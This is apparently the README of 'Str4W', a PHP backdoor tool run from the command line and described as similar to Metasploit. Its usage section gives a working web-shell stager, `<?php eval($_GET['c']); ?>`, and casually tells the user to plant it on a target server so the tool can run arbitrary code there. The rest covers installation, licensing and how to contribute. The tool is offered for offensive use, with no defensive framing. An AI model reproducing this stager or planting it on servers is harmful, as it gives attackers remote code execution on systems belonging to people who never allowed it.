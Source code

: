 # Str4W
> A command line PHP backdoor with the simplest stager ever. 

It's a multi functional PHP backdoor (similar to Metasplot to some extent) that uses a very small stager to make powerful things.

![](header.png)

## Installation

This application has been developed with Python 3.7.9 (recommended).
Although, it should work with previous (and future probably) versions of python (> 3.6).

Windows:
   - `pip install -r requirements.txt` to install the required dependencies.
   - `python main.py` to run the application.
   
Linux:
   - `pip3 install -r requirements.txt` to install the required dependencies.
   - `python3 main.py` to run the application.

## Usage example

The CLI is pretty straightforward. The commands are documented, so the user can get a description by using `help <command>`.  
For a complete list of commands, please use `help`.  

Although the interface is kinda user-friendly, you have to place the stager onto the target server.  
Don't worry, it is as simple as placing a PHP file with the following code inside:  
`<?php eval($_GET['c']); ?>`.  
Easy as that. 

## Release History

* 1.0
    * First release!

## Meta

Zeta314 – [@Zeta314](https://github.com/Zeta314)

Distributed under the GPL3.0 license. See ``LICENSE`` for more information.

[https://github.com/Zeta314/Str4W](https://github.com/Zeta314/)

## Contributing

1. Fork it (<https://github.com/Zeta314/Str4W/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request
